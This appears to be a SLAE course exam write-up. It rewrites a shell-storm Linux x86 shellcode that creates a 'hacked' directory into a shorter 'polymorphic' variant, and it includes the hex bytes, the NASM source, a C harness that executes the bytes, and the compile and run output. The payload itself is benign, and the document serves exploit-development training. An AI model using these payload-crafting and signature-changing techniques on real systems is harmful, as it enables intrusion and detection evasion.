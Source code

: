 # Mkdir

<p style="text-align: justify;">Address of the original shellcode:</p>
- [http://shell-storm.org/shellcode/files/shellcode-542.php](http://shell-storm.org/shellcode/files/shellcode-542.php)

Original source code:
```c


The comment in that file is not correct.. I cut and pasted the shell code
in an existing c source and forgot to adjust it..

/*
 * This shellcode will do a mkdir() of 'hacked' and then an exit()
 * Written by zillion@safemode.org
 *
 */

char shellcode[]=
        "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed"
        "\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68"
        "\x61\x63\x6b\x65\x64\x23";


void main()
{

  int *ret;
  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
```
To illustrate the appearance of the NASM code of the above shellcode, we will use the ndisaasm command.
```nasm
$ echo -ne "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x23" | ndisasm -u -

00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
00000018  E8E5FFFFFF        call dword 0x2
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
<p style="text-align: justify;">I will try to present my polymorphic shellcode in parts (and finally the whole) in order to explain in detail the changes and improvements I have made.</p>

### sys_mkdir()

Original code:
```nasm
00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
[..]
00000018  E8E5FFFFFF        call dword 0x2        <--- Everything from here means "Push 'hacked#' on top of the stack
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
Code after changes:
```nasm
	xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir () system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	      ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
```
<p style="text-align: justify;">As we can see, I gave up the JMP-CALL-POP technique in favor of placing a string with the name of the created folder on the stack with a null being a string terminator. This trick allowed to save up to 8 bytes!
</p>

### sys_exit()

Original code:
```nasm
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
```
Code after changes:
```nasm
  	add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```
<p style="text-align: justify;">Only one line has been changed - the ADD instruction was used instead of the MOV instruction.
</p>

### Full code after changes

```nasm
; Filename: 	mkdir.nasm
; Author:   	Jakub Heba
; Purpose:	  SLAE Course & Exam

global _start			

section .text
_start:
	xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir () system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	      ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
	add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```

### Compiling and Execution

```sh
$ ./compile.sh mkdir
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80"
```
<p style="text-align: justify;">Shellcode.c wrapper file content:</p>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Execution:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ls
compile.sh  shellcode  shellcode.c  template  template.nasm  template.o

$ ./shellcode 
Shellcode Length:  28

$ ls -la
total 44
drwxrwxr-x 3 slae slae 4096 Mar 30 12:45 .
drwxrwxr-x 5 slae slae 4096 Mar 25 05:33 ..
-rwxrwxr-x 1 slae slae  310 Mar 25 13:41 compile.sh
-rw------- 1 slae slae  710 Mar 25 16:00 .gdb_history
drwxr-xr-x 2 root root 4096 Mar 30 12:45 hacked           <------
-rwxr-xr-x 1 root root 7462 Mar 30 12:44 shellcode
-rw-rw-r-- 1 slae slae  287 Mar 30 12:43 shellcode.c
-rwxr-xr-x 1 root root  534 Mar 30 12:43 template
-rw-rw-r-- 1 slae slae  232 Mar 25 16:05 template.nasm
-rw-rw-r-- 1 slae slae  448 Mar 30 12:43 template.o
```

### Summary

Original shellcode length:

- **36 bytes**

Length of polymorphic shellcode:

- **28 bytes**

Difference in length:

- **~22% shorter!**

### Pwned.
